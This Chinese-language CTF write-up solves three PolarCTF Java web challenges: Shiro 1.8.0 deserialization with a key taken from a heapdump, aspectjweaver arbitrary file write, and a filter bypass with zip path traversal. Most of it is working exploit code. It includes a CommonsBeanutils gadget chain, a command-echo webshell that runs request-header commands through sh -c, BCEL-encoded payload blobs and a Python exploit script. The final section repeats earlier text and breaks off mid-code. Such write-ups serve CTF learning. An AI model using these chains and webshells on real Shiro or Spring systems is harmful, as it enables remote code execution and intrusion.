## PolarOA2.0 【2024夏季个人挑战赛】

随便抓一个包，发现还是有shiro的rememberMe=deleteMe标志字段。

而且这次shiro密钥不再是默认密钥，利用shiro\_attack-4.7.0工具也没有爆破出来密钥，可能需要寻找。这里爆破了用户密码为admin/admin123



登录进去后，还是没东西，我这边用dirsearch扫扫后台：

（这里要带登录后的cookie扫，不然扫不到）



发现了actuator泄露，环境变量里这个不是flag，艹



下载/actuator/heapdump，利用工具，分析得到shirokey，



`/G7eW8Ibb3w3Mh3k1ZzIdA==`并且加密是AES GCM模式。

由于加密方式变了，我们查看`/actuator/logfile`发现shiro的版本是1.8.0



注意shiro的版本是1.8.0对应的commons-beanutils版本是1.9.4，所以这里改改pom.xml

```
<dependency>
  <groupId>commons-beanutils</groupId>
  <artifactId>commons-beanutils</artifactId>
  <version>1.9.4</version>
</dependency>
<!--对于shiro高版本来说，cb的版本要是1.9.x-->
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-core</artifactId>
    <version>1.8.0</version>
</dependency>
```

这道题的cookie长度限制从3500变成了3000，我们就需要更加一步压缩我们的回显马的长度。

poc

```
package com.test;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.crypto.AesCipherService;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.PriorityQueue;

import static com.Utils.Util.getFieldValue;
import static com.Utils.Util.setValue;


public class test2 {
    public static void main(String[] args) throws Exception {
        final TemplatesImpl templates = getTemplate();

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);

        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add("1");
        queue.add("1");

        setValue(comparator, "property", "outputProperties");

        final Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = templates;
        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(queue);
        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode(CodecSupport.toBytes("/G7eW8Ibb3w3Mh3k1ZzIdA=="));//shiro默认密钥
        byte[] bytes = byteArrayOutputStream.toByteArray();
        System.out.println(aes.encrypt(bytes, key));
    }
    public static CtClass genPayloadForLinux2() throws NotFoundException, CannotCompileException {
        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.makeClass("A");
        if ((clazz.getDeclaredConstructors()).length != 0) {
            clazz.removeConstructor(clazz.getDeclaredConstructors()[0]);
        }
        clazz.addConstructor(CtNewConstructor.make("public B() throws Exception {
" +
            "                org.springframework.web.context.request.RequestAttributes requestAttributes = org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
" +
            "                javax.servlet.http.HttpServletRequest httprequest = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getRequest();
" +
            "                javax.servlet.http.HttpServletResponse httpresponse = ((org.springframework.web.context.request.ServletRequestAttributes) requestAttributes).getResponse();
" +
            "                String[] cmd =  new String[]{"sh", "-c", httprequest.getHeader("C")};
" +
            "                byte[] result = new java.util.Scanner(new ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next().getBytes();
" +
            "                httpresponse.getWriter().write(new String(result));
" +
            "                httpresponse.getWriter().flush();
" +
            "                httpresponse.getWriter().close();
" +
            "        }", clazz));
        // 兼容低版本jdk
        clazz.getClassFile().setMajorVersion(50);
        CtClass superClass = classPool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        return clazz;
    }
    public static TemplatesImpl getTemplate() throws Exception {
        CtClass clz = genPayloadForLinux2();
        TemplatesImpl obj = new TemplatesImpl();
        setValue(obj, "_bytecodes", new byte[][]{clz.toBytecode()});
        setValue(obj, "_name", "a");
        setValue(obj, "_tfactory", new TransformerFactoryImpl());

        return obj;
    }
}
```



flag{7ca96d0ede726d6a4d68b0c0d7456e11}

​

## 一写一个不吱声 【2024秋季个人挑战赛】

解包jar发现项目有aspectjweaver 1.9.5的依赖，查了资料发现这个依赖存在反序列化漏洞，可以任意文件写入。


但是一般情况下，使用这个依赖需要搭配CC来使用，因为需要用到lazymap来触发任意put方法。那这里没有CC的依赖怎么办呢？

这里题目自带的UserBean类其实给了一个readObject，这里面可以调用任意类的put方法。



现在我们已经能写文件了，那写什么文件？把文件写在哪呢？

java目录可以通过拉docker的方式找到。我们可以把写一个恶意字节码写到`/usr/lib/jvm/java-8-openjdk-amd64/jre/classes/`目录，这里是可以被java反序列化程序读到的，我们如果写的恶意字节码重写了readObject方法，那么我们就可以反序列化执行他了。

而由于不出网，readObject方法里就需要利用classloader打一个回显马。

回显马：

```
package com.Memshell.fastjsonBCEL;

import java.lang.reflect.Method;
import java.util.Scanner;

public class shell {
    static {
        try {
            Class v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method v1 = v0.getMethod("getRequestAttributes");
            Object v2 = v1.invoke(null);
            v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            v1 = v0.getMethod("getResponse");
            Method v3 = v0.getMethod("getRequest");
            Object v4 = v1.invoke(v2);
            Object v5 = v3.invoke(v2);
            Method v6 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method v7 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            v7.setAccessible(true);
            v6.setAccessible(true);
            Object v8 = v6.invoke(v4);
            String v9 = (String) v7.invoke(v5,"cmd");      //请求头传参
            String[] v10 = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")){
                v10[0] = "cmd";
                v10[1] = "/c";
            }else {
                v10[0] = "/bin/sh";
                v10[1] = "-c";
            }
            v10[2] = v9;
            v8.getClass().getDeclaredMethod("println",String.class).invoke(v8,(new Scanner(Runtime.getRuntime().exec(v10).getInputStream())).useDelimiter("\A").next());
            v8.getClass().getDeclaredMethod("flush").invoke(v8);
            v8.getClass().getDeclaredMethod("clone").invoke(v8);
        } catch (Exception var11) {
            var11.getStackTrace();
        }
    }
}
```

把回显马编码成BCEL：

```
package com.test;

import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.nio.file.Files;
import java.nio.file.Paths;

public class test {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\Users\13664\Documents\JavaUtils\target\classes\com\Memshell\fastjsonBCEL\shell.class"));
        String code = Utility.encode(bytes,true);
        System.out.println("$$BCEL$$"+code);
    }
}
```

把编译好的BCEL字符串嵌入恶意字节码的readObject中：

```
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Method;
import java.util.Base64;

public class BCELclassloaderEcho implements Serializable {
    public static void main(String[] args) {
        try {
            Class<?> evilClass = Class.forName("BCELclassloaderEcho");
            Object evilInstance = evilClass.getDeclaredConstructor().newInstance();
            ByteArrayOutputStream btout = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(btout);
            objOut.writeObject(evilInstance);
            System.out.println(new String(Base64.getEncoder().encode(btout.toByteArray())));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private void readObject (ObjectInputStream ois) throws Exception {
        String BCEL = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$5bW$TW$U$fe$8e$q$99a$YD$C$I$f1R$c1k$40M$c4$bb$40$ad$IX$ac$B$adA$v$a2m$87$e1$A$D$93$9983$B$b4$f7$7bko$f6fk$ed$cd$da$d6v$f5$c9$97$e8j$97$ae$3e$f7$a1$7d$e9k$9f$fa$d4$be$f4$l$d4$ee$93I4$R$ace$z$f69g_$ce$de$fb$db$7b$9f$cc$cf$ff$fcp$D$c0V$7c$a7$a0$i$87$U$3c$8c$c3$82$qe$M$u8$82$a32$G$r$3c$a2$40$c2$90$84c$K$86q$5c$c6$J$Z$8f$caxL$c6$e324$n$h$91$a1$cb$Y$95$c0$85$c6$98$8cq$Z$T$K$ML$w$a8$c1$94$MS$ac$v$Z$96$M$5bFZ8$3b$v$c3$91$e0$w$f0$90$RdZ$c1$Mf$V4$e2$94$8c$d3b$7dB$90$te$3c$r$e3i$J$cf$uh$c1$b3$S$9ec$Iu$Y$96$e1$edf$u$8b6$le$It$d9$a3$9c$a1$waX$bc$3f$93$g$e1$ce$806b$S$t$9c$b0u$cd$3c$aa9$868$e7$99$Bo$c2p$ZV$tlg$3c$ceg$b5T$da$e4q$cdMs$dd$9b$9c$e1$da4w$e2$7b$bbz$S$3d$fa$84$dd$ce$mw$e8f$de$d9$82$e9M$M$d5$89ImZ$8b$9b$9a5$k$ef25$d7m$X$82V$86$rE$C$87$8f$99t$5d$bc$8f$7b$T$f6hNc$b3$88$e6$b6$c6$c1$91IR$c8I$b6$I$b2U$90m$82l$Xd$87$m$3b$F$d9Uj$97$f4$i$c3$g$t$bb$b2$e9V$8a$a6fx$3eYpZsZ$v$a4$ba$oa$cf$ac$ce$d3$9ea$5b$q$afLz$9a$3e$d5$a7$a5s$88Py$r$3cO$c5$a5$eaI$e8$s$a0$Z$94$a4$9dqt$be$cf$Q$80U$W$e0$88$89$ebTlDL$c2$L$w$5e$c4K$w$5e$c6$x$M$j$Ee$ccM$L$f7c$8e$96$e23$b63$V$9b$e1$p1$dd$b6$3c$3e$eb$c5$i$7e2$c3$5d$_v$d8_$bb$7cv$afm$8er$ea$81WU$bc$863$M$b5$e3$dc$cbktz$94$ccH$c6$e3T$a9$aa$3b$QW$f1$3a$de$60Xt$t$9a$94$85$8a7$f1$W$c3$9e$ff$hO$92$3b$d3$e6$bcN$xr$b1$b8i$dbr$J$C$e5vd$M$cb$85$e3$d9$98$eb$db$de$be$a3$a0$5cN$ca$83$8e$e1qG$c5$db$o$d25$a5$G$T$9e$97$8e$f5$S$v$f5$ee$h$f6r$8d0$v$c9$ce$af$ab$8a$b3x$87$ea$ae$a7F$Z$q$db$8dY$94$98$84wU$bc$87$f7U$7c$80s$q$i$dc$df$af$e2C$7cD$9d$T$d7I$z$3ebXqw$82$8e$hu$V$e7$f11$f1$E$y$9eiQ$x$e7$5cd$3c$c3$8c$tu$cd$b2D$v$$$a8$f8$E$9f$aa$f8$M$9fK$f8B$c5E$7c$v$K$7e$89n8$de$a9$e2$x$7c$ad$e2$h$e1$w8ff$c4$c5A$dd$b4$zJ$baf$9eVSq$Z$df2$ac$bc$f7$a014$dcmzJ$a0$Y$98p$I$ljI$3d$e38$dc$f2$K$e7$dahs$e2N$zj$f4$3a$C4$dfk$b9$ceI$d8$3e$b8$91$S$f5$o$91$b0$99W$40$c51i$93$e3PA$a3s$c7n$ce$8d$ed$7eA$LY$ec$99$c7fx$8eM$f3$7f$bd$o$n$c3$9a$b6$a7$I$ec$5d$d1$b9O$c9$f0$5cV$f3$7c$PN5$c5$d4$cduSs$f8h$n$b6J$97$7b$9d$ba$ce$5d$d7$f0$9f$c8$e81$f1$ae$W$f7$e0$v$d7$e3$v$7f$y$O9v$9a$3b$de$v$86$b5$f7$c0$e1$d6$8bT$e1$d9G$d2d$d4$a5$89$B$v$ad$d6$z$rYL$a7fX$E$f0$d2$e2$8b$bb$s4$t$vf$c4$d2y$7b$f31R$Ue$f5$xQ3$b7$92$ed$85$ce$ce$b1$Og$y$cfH$VF$b8p$a8$x1$cb$b3$c90$c0g9$cdM4$3a$cf$bbZlA$Q$I$b4J$5d$e5$99$M$L$c9$d5$7e$x$9d$f1$c8$92k$84Z$7d$c1$9da$c7$8b$Ed$de$Q$9dW$m$d0W3$$$ef$e6$a6$91$S$_$J$c3$ba$bbc$5d$3c$c2$o$J$8b$fa$9d$8aJQ$e4$k$fa$BG$d3$v$e7$c6hsiV$FQ$8f$c9S4K$edh$c2$G$fa$5d$W$7f$L$c0$c43O4N$a78$ad$8c$d6$60$cbU$b0$x9$f1$s$a2$a1$i3$84V$a2$aa$af$80$cd$d8B$abL$l$Uy$e3$F$df$d3$95$V$A$d3$afaA$We$e1$40$W$c1$D$z$e1P$d9uHY$c8$89$f5$8cv$e5Y$u$7dy$85$K_A$z$u$b4$84$x$f3$db$fe$f5$h$f2$bam$81$8d$b7$b6$c1$bc$ddB$b2$LW$f9$aa$8b$daByn$b5$e0$86$D$c4$j$w$L$d7$q$85H$8aH$UDm$q$e4$d3H$a0p$93$i$91$oAR$z$t$d5$3aRU$7eBM$5by$e8$3aQ$r$bc$f8$g$ea$b3h$IG$b2Xr$k$e1$88$ot$oJ$m$bc4y$ZU$e2$b8$yw$5cN4$Y$vOF$e4$y$ee$L$af$u$f6$i$91$fd$cb$7fD$e3$d054E$94$yVf$b1$ea$wV$87$d7d$b16$8bu$c2$e9$a0o$Z$cdg$S$91$f3$e1$e5$f9$cds$f8$97Q$7e$a0$r$8b$f5$83WD$R$d8$Q$3bN$lJe$b9$S9XF$b4$9c$ca$a3$a0$9e$ca$d0$E$f1$9aWb$t$W$a2$LU$e8$c7$o$M$a1$g6$c28C_hgQ$8bs$a8$c3$r$y$G$e5$8b$hh$c0$_$88$e07$y$c1$eft$d7$lX$8e$3f$b1$C$7f$a3$915$a3$89ub$r$h$c2$g$f2$b8$8a$9d$c0j6$82$b5$b9v8M$7eT$d6$87m$d8N$a7z$b6$X$3b$c8$t$p$8b$9d$d8$856j$a0$$$b6$Y$ed$c4$xC$3f$ab$40$H$f1$C$Y$a2$f0$ef$a7$5d$90$e2$f9$L$bbI$g$a2$a8$7e$c5$D$b4$93$u$a6$y$f6$90T$a6$c8$$$a2$T$7b$v$af$h$b8$40ytC$n$efA$f4$60$ly$7b$90$fe$b7$pp$93$C$ae$90$d0$xa$bf$84$87$K$d4$df$f8$fb$D$S$S$40$c5MB$89$60$93$d0$X$a4$I$fbs$ed$7d$f0_g$f9j$k$Y$L$A$A";
        //获取ClassLoader对象
        ClassLoader classLoader = (ClassLoader) Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader").getDeclaredConstructor().newInstance();
        //获取loadClass方法
        Method loadMethod = classLoader.getClass().getMethod("loadClass",String.class);
        //执行loadClass方法加载BCEL
        Class<?> loadedClass = (Class<?>) loadMethod.invoke(classLoader,BCEL);
        loadedClass.newInstance();
    }

}
```

利用poc写文件:

```
import com.polar.ctf.bean.UserBean;
import java.io.*;
import java.lang.reflect.Constructor;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class test {
    public static void main(String[] args) throws Exception {
        // 反射获取构造函数
        Constructor con = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructor(String.class,int.class);
        con.setAccessible(true);
        HashMap map = (HashMap) con.newInstance("/usr/lib/jvm/java-8-openjdk-amd64/jre/classes/", 1);

        String payload = FiletoBase64("C:\Users\13664\Desktop\111\sources\out\production\111\BCELclassloaderEcho.class");
        UserBean userBean = new UserBean("BCELclassloaderEcho.class",payload,map);

        String a = serialize(userBean);
        System.out.println(a);
    }

    public static String FiletoBase64(String filename) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get(filename));
        String encode = Base64.getEncoder().encodeToString(bytes);
        return encode;
    }
    public static String serialize(Object obj) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }
}
```



然后再次反序列化刚刚的恶意字节码，触发readObject加载恶意字节码，然后请求头传参rce。



flag{534563e5d4b3db6067b2e708354dbf40}

## ezUtil 【2024冬季个人挑战赛】

在/admin/api/GetClassValue路由，接受了一个data，里面可以传入clazzName，methodName，fieldName。



并在下面进行了反射调用，这里就可以执行任意类方法。



再看到FileUtil类里的`generateZip`方法，这个方法是可以上传一个任意的zip文件，而且没有对文件内容进行任何过滤。



还有unZipFile方法，这里没有对内部文件名做任何过滤，就直接拼接了`./`，就说明这里存在目录穿越，可以把任意文件上传到任意位置。



再加上上面的任意类方法调用，我们就可以达到跟上一道题“一写一个不吱声”一样的效果：上传一个恶意字节码文件到JAVA\_HOME，然后通过任意类方法调用，调用恶意字节码的classloader加载外部恶意字节码，来达到rce的效果。

做这些的前提是还有一个Filter限制，在FilterConfig类里：



首先经过了handleFilter：主要是查看url的`admin/`后面是否存在`../`和`;`​



第二个AdminFilter：检查路由是不是以`/admin/`开头。



绕过方法是：`/admin;admin/`这样handleFilter就只会检查到后面的`admin/`，前面的结构被破坏，并且也没存在`/admin/`，第二个AdminFilter同样被绕过了。

所以任意类调用的路由就是：`/admin;admin/api/GetClassValue`

BCELClassLoader：

```
import java.lang.reflect.Method;

public class BCELClassLoader {
    public static Boolean BCELloader (String BCEL) throws Exception {
        //获取ClassLoader对象
        ClassLoader classLoader = (ClassLoader) Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader").getDeclaredConstructor().newInstance();
        //获取loadClass方法
        Method loadMethod = classLoader.getClass().getMethod("loadClass",String.class);
        //执行loadClass方法加载BCEL
        Class<?> loadedClass = (Class<?>) loadMethod.invoke(classLoader,BCEL);
        loadedClass.newInstance();
        return true;
    }
}
```

还是一样的，把上一道题的回显马转化成BCEL格式，嵌入下面的脚本：

exp：

```
import base64
import zipfile
import requests

def file_to_base64(file_path):
    with open(file_path, "rb") as f:
        base64_string = base64.b64encode(f.read())
        return base64_string.decode('utf-8')


url = "http://96dd30aa-ff8d-4e30-aa6c-ba97e08dea1e.www.polarctf.com:8090"

#把恶意字节码文件压缩到一个zip里，附带目录穿越的文件名
input_file = r'C:\Users\admin\Desktop\222\sources\out\production\222\BCELClassLoader.class'  # 要压缩的恶意字节码文件
arcname = '../../../../../../../../usr/lib/jvm/java-8-openjdk-amd64/jre/classes/BCELClassLoader.class'  # 目录穿越
with zipfile.ZipFile("output.zip", 'w', zipfile.ZIP_DEFLATED) as zipf:
    # 将文件压缩到 ZIP 中，并自定义在压缩包内的文件名
    zipf.write(input_file, arcname)
    zipf.close()


#上传压缩包
upload_data = {
    "data":{
        "clazzName":"com.polar.ctf.admin.util.FileUtil",
        "methodName":"generateZip",
        "fieldName":[
            file_to_base64("output.zip"),  #base64加密后的zip
            ".",   #folderPath
            "output"   #fileName
        ]
    }
}
upload_res = requests.post(url+"/admin;admin/api/GetClassValue", json=upload_data)
print(upload_res.text)


#解压缩
unzip_data = {
    "data":{
        "clazzName":"com.polar.ctf.admin.util.FileUtil",
        "methodName":"unZipFile",
        "fieldName":[
            "output.zip"   #zipFile
        ]
    }
}
unzip_res = requests.post(url+"/admin;admin/api/GetClassValue", json=unzip_data)
print(unzip_res.text)


#执行恶意字节码
invoke_data = {
    "data":{
        "clazzName":"BCELClassLoader",
        "methodName":"BCELloader",
        "fieldName":[
            "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$d9w$TU$Y$ff$5d$9ad$s$d3$v$a5i$L$84E$ukZ$m$a1$ec$b4$a8$94P$y$92$W$q$40$z$8b$3a$9d$de$b6$d3Nf$c2$cc$a4$U$dcw$c5$N7$Uq$c3$N$95$t$5e$CG$P$i$9f$7d$d0$X_$7d$f2I_$fc$P$c4$ef$ce$q$90$d0$o$f6$9c$7e$f7$deo$df3$3f$ff$f3$c3u$A$hpIA$U$P$v$d8$8f$ac$A$Hd$iTp$I$fd2$k$960$a0$40$c2a$JG$U$i$c51$Z$8f$c8xT$c6c24$Z$83$82$a6$cb$Y$92$c1$r$M$L$8e$R$Z$a32$M$Fc$YW$d0$ISFN$9c$96$M$5bF$5e$c6q$Z$8e$b0$e7$ca$f0$q$U$UL$e0$84$A$93$KN$e2$94$82$W$3c$$$e3$Jq$3e$v$c0S2$9e$96$f1$8c$84g$V$ac$c2s$S$9eg$88l3$y$c3$bb$8f$a1$s$d1z$88$n$94$b6$878C$7d$c6$b0x_$n7$c8$9d$D$da$a0I$98X$c6$d65$f3$90$e6$Y$e2$5dB$86$bcQ$c3eh$c9$e8v$$$d5$cbs$ee$u7$cd$d4$b0$e6zc$aem$edHwgR$3e$aa$93A$de$a6$9b$rK3$s$d624d$c6$b4$J$zej$d6H$wmj$ae$db$v$I$ed$M$f3$w$I$O$l6$b9$ee$91jo$d4$k$f29$d6$JWnq$ec$j$i$p$G$9f$b2$5e$80$N$Cl$U$60$93$A$9b$F$d8$o$c0$d6j$b9$ac$e7$Y$d6$I$c9$d5L$b4$937$8dG$a6$a3$85$t4$a7$9d$5cj$ae$mvO$ea$3c$ef$Z$b6E$f4$ba$ac$a7$e9$e3$bdZ$deO$H$95W$c2$LT$5c$aa$9e$84n$ca2$83$92$b5$L$8e$cew$Z$o$5b$8a$9f$8b$a4$d0$a5$o$89$94$84$XU$bc$84$97U$bc$82W$Z$b6$d9$ceH$d2$cd$L$db$c3$8e$96$e3$tlg$3cy$82$P$su$db$f2$f8$a4$97t$f8$f1$Cw$bd$e4$fe$e0L$H$e8$k$db$i$e2$8e$84$d3$w$5e$c3$eb$MM$p$dc$xqty$U$c9$60$c1$e3T$a3$fa$db$d2$ad$e2$N$bc$c90$eb$f6TR$I$w$de$c2$Z$86$ed$ff$d7$9f$yw$s$cci$8d$d6$fa$be$b8y$dbrE$fc$b7$3ccX$u$MO$s$dd$40$f6$96$8e2s$94$98$fb$j$c3$e3$8e$8a$b7$85$a7$cb$ab$FF$3d$_$9f$ec$nPm$3d$Q$ec$e1$g$e5$a4$w$ba$a0$a8$w$de$c1$bbT$f4t$efN$G$c9v$93$W$F$s$e1$3d$V$ef$e3$ac$8a$P$f0$n$R$fbw$f7$a98$87$8f$e8$aa$e7$86$a8yR$3a1$a7$G$N$8b$ba$99$9ekt$V$e7$f11$e1Dr$3c$d3$a2n$f6$N$V$3c$c3Leu$cd$b2DA$3eQ$f1$v$3eS$f19$$H$f8B$c5$97$f8J$94$fdk$d2p$b4K$c57$b8$a8$e2$5ba0$3cl$W$84$e2$b0n$da$W$85$de8M$b7$a9$f8$O$df3$y$ba$cb$a01$cc$bd$d3$f4Te$e3$c0$a8C$v$a2$O$d6$L$8e$c3$z$af$fcnJ$b4fn$e7$a2Fo$a6$9c$96$da$cdo$9e$8c$j$e47$5e$c5$5eA$S2$d3$S$a8$3e$s$5d$7c$M$d541u$ec$a6h$ec$MjZ$8eb$fb42G$a6$c8$b4$fe$d7$W$89$Y$d6$84$3dN$99$de$9a$98$baJ$8eLE$b5N$b7p$g$c8$a7$9d$5c75$87$P$95$7d$abs$b9$d7$a5$eb$dcu$8d$60$3f$s$O$8b$a5Z$d9$86$t$5d$8f$e7$82$c9$d8$e7$d8y$eex$t$ZV$dc$r$P77R$adg$l$cc$93PZ$T3R$5d$ad$9bL$b2$YP$cd$b0$u$c1$f3$x$V$a7G5$t$x$c6$c4$d2yg$ebab$Ue$N$w$d18$b5$92$9d$e5$b6$f6Q$fb$L$96g$e4$caS$5c$7e4W$89$95$d0$q$Y$e2$93$9c$86$s$91$98f$afVJP$KD$b6$aaM$95$90$M3$c9$d4n$x_$f0H$92k$94$b59es$86$9d$aa$m$90$f8$dc$c4$b4$E$91$7d$b5$e0$f2$9d$dc4rb$990$ac$bcs$ae$x$e7W$EaQ$bfSQ$c9$L$7f$d1$lp4$9db$5e$9ch$ad$8e$aaL$ea6y$8ef$a9$93$7ei$d7$d0$8f$b2$f8$9b$B$s6$3d$c1$b5$f4$S$t$a33$dcv$F$ec$b2On$t$Y$f1$91$R$ac$p$a8$G$MXO$9f$S$80$8c$8de$e1$Z$97He$z$c0$f4$ab$98QDM$yTDxO$5b$yRs$NR$Rrf$V$a3$5b$b4$I$a5$b7$c4P$h0$a8e$86$b6X$5d$e9$da$b7ju$89$b7$p$b4$e6$e65$5c$92$9bIr$b1$fa$80uVG$a4$84m$Q$d8X$88$b0$D5$b1$c6$ac$mIq$89$9ch$8aG$C$Y$P$955$c9q$v$k$s$d6$u$b16$T$ab$f2$T$g$3b$a2$91k$E$95$d8$ec$ab$98S$c4$dcX$bc$88y$e7$Q$8b$x5$b1$f9$d9$b8$S$8a$z$c8$5eD$bdx$$$f4$9f$f7$Q$M$c7$a3$d9$b8$5c$c4$a2$d8$e2J$cbq9P$fe$pZ$G$aebI$5c$vbi$R$cb$ae$60ylE$R$x$8bH$I$a3$fd$81dk$v$92$b8$5cr$af$84o$9b$82$bf$88$e8$9e$b6$oV$f7_$WE$60$D$ec$u$7d$r$d5$f8$rr$b0$80$60$94$ca$a3$60$O$95$a1$85nkP$87$z$98$894$ea$d1$87Y$Y$40$Dl$c4p$9a$be$d0$ce$a0$Jg$d1L$3b$7f6$u$5e$5c$c7$5c$fc$828$7e$c3$3c$fcN$ba$fe$c0B$fc$89E$f8$h$8bY$xZX$X$96$b0$B$y$t$8bK$d91$yc$83X$e1$b7$c3$v$b2$a3$b2$5el$c2fz$cda$3b$c8$e2V$f2$ae$85mA$H$3a$a9$81$d2l6$b6$R$ae$G$7d$ac$W$f7$S$$$84$Br$ff$3e$ba$85$c9$9f$bfp$3fQ$p$e4$d5$af$d8N7$89$7c$w$a2$8b$a82yv$B$3b$c8$ff$u$f9w$k$3b$d1$N$85$ac$87$b1$L$P$90$b5$k$fa$df$84$d0$Nr$b8V$c2n$J$PJ$d8S$86$c1$r$b8g$q$f4$C$b57$uK$946$J$7da$f2p$af$df$de$fb$fe$FFE$b8$f1$Y$L$A$A"
        ]
    }
}
invoke_res = requests.post(url+"/admin;admin/api/GetClassValue",json=invoke_data,headers={"CMD":"cat flag"})
print(invoke_res.text)
```



flag{2ccba6a1b34ec052f3510a2ef297e420}

​

我们可以把写一个恶意字节码写到`/usr/lib/jvm/java-8-openjdk-amd64/jre/classes/`目录，这里是可以被java反序列化程序读到的，我们如果写的恶意字节码重写了readObject方法，那么我们就可以反序列化执行他了。

而由于不出网，readObject方法里就需要利用classloader打一个回显马。

回显马：

```
package com.Memshell.fastjsonBCEL;

import java.lang.reflect.Method;
import java.util.Scanner;

public class shell {
    static {
        try {
            Class v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method v1 = v0.getMethod("getRequestAttributes");
            Object v2 = v1.invoke(null);
            v0 = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            v1 = v0.getMethod("getResponse");
            Method v3 = v0.getMethod("getRequest");
            Object v4 = v1.invoke(v2);
            Object v5 = v3.invoke(v2);
            Method v6 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method v7 = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            v7.setAccessible(true);
            v6.setAccessible(true);
            Object v8 = v6.invoke(v4);
            String v9 = (String) v7.invoke(v5,"cmd");      //请求头传参
            String[] v10 = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")){
                v10[0] = "cmd";
                v10[1] = "/c";
            }else {
                v10[0] = "/bin/sh";
                v10[1] = "-c";
            }
            v10[2] = v9;
            v8.getClass().getDeclaredMethod("println",String.class).invoke(v8,(new Scanner(Runtime.getRuntime().exec(v10).getInputStream())).useDelimiter("\A").next());
            v8.getClass().getDeclaredMethod("flush").invoke(v8);
            v8.getClass().getDeclaredMethod("clone").invoke(v8);
        } catch (Exception var11) {
            var11.getStackTrace();
        }
    }
}
```

把回显马编码成BCEL：

```
package com.test;

import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.nio.file.Files;
import java.nio.file.Paths;

public class test {
    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\Users\13664\Documents\JavaUtils\target\classes\com\Memshell\fastjsonBCEL\shell.class"));
        String code = Utility.encode(bytes,true);
        System.out.println("$$BCEL$$"+code);
    }
}
```

把编译好的BCEL字符串嵌入恶意字节码的readObject中：

```
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Method;
import java.util.Base64;

public class BCELclassloaderEcho implements Serializable {
    public static void main(String[] args) {
        try {
            Class<?> evilClass = Class.forName("BCELclassloaderEcho");
            Object evilInstance = evilClass.getDeclaredConstructor().newInstance();
            ByteArrayOutputStream btout = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(btout);
            objOut.writeObject(evilInstance);
            System.out.println(new String(Base64.getEncoder().encode(btout.toByteArray())));
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private void readObject (ObjectInputStream ois) throws Exception {
